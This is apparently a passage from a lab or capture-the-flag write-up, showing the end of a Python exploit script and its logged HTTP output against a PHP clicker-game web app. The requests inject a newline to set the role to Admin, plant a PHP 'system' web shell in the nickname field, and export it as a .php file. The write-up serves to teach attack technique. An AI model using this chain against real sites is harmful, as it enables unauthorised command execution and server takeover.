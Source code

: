 ```python
r = commandSaveGame()
r = commandRequestExport()

ExportFile = r.headers['Location'].replace('/admin.php?msg=Data has been saved in ','')
print("[ ] Exported file: " + ExportFile)

r = commandGetExport( ExportFile )
```

This script is doing it all from the create player, the login, set role and nickname, request an export, and get an export.

When executed, we are able to execute a system command :

```
[ ] Login
URL: /authenticate.php
Payload: {'username': 'john', 'password': 'doe'}
Session cookie: None
HTTP Response:
   Response code: 302
   Headers:
      Date: Sat, 28 Oct 2023 15:22:34 GMT
      Server: Apache/2.4.52 (Ubuntu)
      Set-Cookie: PHPSESSID=3dnelk59tdkbg13p012thk98up; path=/
      Expires: Thu, 19 Nov 1981 08:52:00 GMT
      Cache-Control: no-store, no-cache, must-revalidate
      Pragma: no-cache
      Location: /index.php
      Content-Length: 0
      Keep-Alive: timeout=5, max=100
      Connection: Keep-Alive
      Content-Type: text/html; charset=UTF-8
   Cookies:
      PHPSESSID : 3dnelk59tdkbg13p012thk98up
   Content:
b''
[ ] Session Cookie: {'PHPSESSID': '3dnelk59tdkbg13p012thk98up'}
[ ] Save Game: set role as admin + nickname
URL: /save_game.php?clicks=13371337&level=666&role%0a=Admin&nickname=%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E
Session cookie: {'PHPSESSID': '3dnelk59tdkbg13p012thk98up'}
HTTP Response:
   Response code: 302
   Headers:
      Date: Sat, 28 Oct 2023 15:22:34 GMT
      Server: Apache/2.4.52 (Ubuntu)
      Expires: Thu, 19 Nov 1981 08:52:00 GMT
      Cache-Control: no-store, no-cache, must-revalidate
      Pragma: no-cache
      Location: /index.php?msg=Game has been saved!
      Content-Length: 0
      Keep-Alive: timeout=5, max=100
      Connection: Keep-Alive
      Content-Type: text/html; charset=UTF-8
   Cookies:
   Content:
b''
[ ] request export
URL: /export.php
Payload: {'threshold': 1, 'extension': 'php'}
Session cookie: {'PHPSESSID': '3dnelk59tdkbg13p012thk98up'}
HTTP Response:
   Response code: 302
```